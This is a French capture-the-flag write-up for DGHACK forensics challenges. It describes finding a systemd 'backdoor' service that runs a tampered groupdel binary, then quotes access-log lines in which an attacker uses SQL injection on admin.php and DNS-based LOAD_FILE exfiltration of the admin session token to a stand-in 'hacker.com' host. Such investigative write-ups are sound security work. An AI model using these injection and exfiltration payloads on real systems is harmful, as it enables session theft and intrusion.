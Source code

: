 On remarque ce service en cherchant une backdoor:

```
cat systembd.service 
[Unit]
Description=backdoor
After=network.target

[Service]
User=root
Type=simple
ExecStart=/usr/sbin/groupdel start_backdoor
Restart=on-failure
RestartSec=10s

[Install]
WantedBy=multi-user.target
```

Modification de groupdel → attaque le 9 nov

Lorsque l’on regarde groupdel, on remarque qu’une librairie avec un nom suspect (backdoor dedans) est chargée, on cherche donc la librairie, la décompile avec Ghidra et on trouve le flag en clair

# DETECTION - Shadow4DGA - Partie 1

Faux flags dans le .bash_history et le code du site:

DGHACK{N1CE_T0_M33T_Y0U}

DGHACK{YOU ARE ADMIN - ALL PERMISSIONS ARE BELONG TO US}

SQL injection dans le champ de admin.php → comment l’attaquant est arrivé ici ?

La fuite de donnée est le mdp d’accès pour un fichier secret

Les logs de access.log:

```
174.10.50.30 - - [17/Jun/2022:21:18:56 +0200] "GET /admin.php?limit=10&offset=0)UNION(SELECT%200;-- HTTP/1.1" 500 5 "-" "Mozilla/0.0 (Windows NT 0.0; Win99; x12) AppleWebKit/007.01 (KHTML, like Gecko) Chrome/01.1.1234.12 Safari/007.01" "-"
174.10.50.30 - - [17/Jun/2022:21:20:56 +0200] "GET /admin.php?limit=10&offset=0)UNION(SELECT%200,test;-- HTTP/1.1" 500 5 "-" "Mozilla/0.0 (Windows NT 0.0; Win99; x12) AppleWebKit/007.01 (KHTML, like Gecko) Chrome/01.1.1234.12 Safari/007.01" "-"
174.10.50.30 - - [17/Jun/2022:21:22:56 +0200] "GET /admin.php?limit=10&offset=0)UNION(SELECT%200,test,test;-- HTTP/1.1" 500 5 "-" "Mozilla/0.0 (Windows NT 0.0; Win99; x12) AppleWebKit/007.01 (KHTML, like Gecko) Chrome/01.1.1234.12 Safari/007.01" "-"
174.10.50.30 - - [17/Jun/2022:21:24:57 +0200] "GET /admin.php?limit=10&offset=0)UNION(SELECT%200,(select%20session%20from%20users%20where%20username='admin'),test;-- HTTP/1.1" 500 5 "-" "Mozilla/0.0 (Windows NT 0.0; Win99; x12) AppleWebKit/007.01 (KHTML, like Gecko) Chrome/01.1.1234.12 Safari/007.01" "-"

174.10.50.30 - - [17/Jun/2022:21:26:57 +0200] "GET /admin.php?limit=10&offset=0);CREATE%20PROCEDURE%20exf(data%20varchar(100))%20BEGIN%20SELECT%20LOAD_FILE(CONCAT('%5C%5C',data,'%5Ca'));END;select%200,NULL,NULL;-- HTTP/1.1" 200 6236 "-" "Mozilla/0.0 (Windows NT 0.0; Win99; x12) AppleWebKit/007.01 (KHTML, like Gecko) Chrome/01.1.1234.12 Safari/007.01" "-"
174.10.50.30 - - [17/Jun/2022:21:28:57 +0200] "GET /admin.php?limit=10&offset=0);CALL%20exf('beginexf.hacker.com'));select%200,NULL,NULL;-- HTTP/1.1" 200 6236 "-" "Mozilla/0.0 (Windows NT 0.0; Win99; x12) AppleWebKit/007.01 (KHTML, like Gecko) Chrome/01.1.1234.12 Safari/007.01" "-"

174.10.50.30 - - [17/Jun/2022:21:31:08 +0200] "GET /admin.php?limit=10&offset=0);CALL%20exf(CONCAT(SUBSTRING((select%20session%20from%20users%20where%20username='admin'),1,63),'.hacker.com'));select%200,NULL,NULL;-- HTTP/1.1" 200 6236 "-" "Mozilla/0.0 (Windows NT 0.0; Win99; x12) AppleWebKit/007.01 (KHTML, like Gecko) Chrome/01.1.1234.12 Safari/007.01" "-"

```